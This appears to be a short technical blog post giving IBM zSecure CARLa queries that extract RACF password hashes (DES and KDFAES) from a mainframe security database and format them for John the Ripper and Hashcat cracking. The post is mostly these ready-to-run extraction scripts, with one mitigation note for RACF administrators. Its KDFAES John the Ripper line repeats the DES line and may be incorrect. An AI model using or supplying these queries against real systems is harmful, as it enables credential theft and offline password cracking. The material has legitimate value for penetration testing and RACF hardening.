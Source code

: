 ```yaml
---
layout: post
title: Extracting passwords using zSecure
date: 2018-04-24 21:54 +0100
tags: RACF zSecure
---
```

zSecure is an excellent product that I [heartily endorse](https://www.youtube.com/watch?v=BfOmkqz06SY).  

Here is some CARLa to pull out password hashes from a RACF DB and write out the results in JohnTheRipper and/or Hashcat formats. Just delete the relevant lines to suit your needs.  

Note that this requires a RACF database to be allocated in SE.1 and will not work with a zSecure unload (since they don't contain passwords).  

**Note for RACF admins:** Define `XFACILIT` profiles of `CKG.CMD.FIELD.PASSWORD` and `CKG.CMD.FIELD.PWDX` with `UACC(NONE)` to prevent this from working.  

To extract DES hashes:  

```
newlist nopage
  select  segment=base has_password=yes
/* JtR format */
  sortlist KEY(0) | ":$racf$*" | key(0) | "*" | password(hex,0)
/* Hashcat format*/
  sortlist "$racf$*" | key(0) | "*" | password(hex,0)
```

And for KDFAES hashes:  

```
newlist nopage
  select  segment=base has_password=yes
/* JtR format */
  sortlist KEY(0) | ":$racf$*" | key(0) | "*" | password(hex,0)
/* Hashcat format*/
  sortlist "$racf$*" | key(0) | "*" | pwdx(hex,0) | ,
   password(hex,0)
```
